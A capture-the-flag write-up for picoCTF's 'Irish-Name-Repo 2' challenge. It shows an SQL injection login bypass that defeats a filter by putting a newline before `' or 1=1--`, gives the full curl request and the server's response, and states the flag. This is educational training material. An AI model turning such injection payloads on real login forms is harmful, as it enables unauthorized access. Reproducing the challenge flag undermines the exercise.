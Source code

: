 # Irish-Name-Repo 2 - 350 points
## Description

There is a website running at `https://2019shell1.picoctf.com/problem/58043/` ([link](https://2019shell1.picoctf.com/problem/58043/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:58043

## Flag

```
picoCTF{m0R3_SQL_plz_c9c1c726}
```

## Solution

Okay, so we already know that the vulnerability is SQL injection from the last challenge. We try to inject simple payloads like `' OR 1=1 --` but there seems to be some kind of filter in place.

After messing around I realized that the filter behaves like regular expressions and realized that they might terminate at a newline.

So, I made a request with a newline before my payload:

```sh
curl 'https://2019shell1.picoctf.com/problem/58043/login.php' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6  Sicherheits-Erg\xe4nzungsupdate) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: https://2019shell1.picoctf.com/problem/58043/login.html' -H 'Content-Type: application/x-www-form-urlencoded' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiJz5cIj48aDE-aGk8L2gxPiJ9.5TyqQ5kcsGZB2MeWCkp6wRPvl3TfqQ_Pk83Dcv2kNbA' -H 'Upgrade-Insecure-Requests: 1' --data 'username=%27%0A or 1=1--&password=&debug=0'
```

I got this response:

```
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c9c1c726}</p>
```

Nice, an easy start to this CTF.
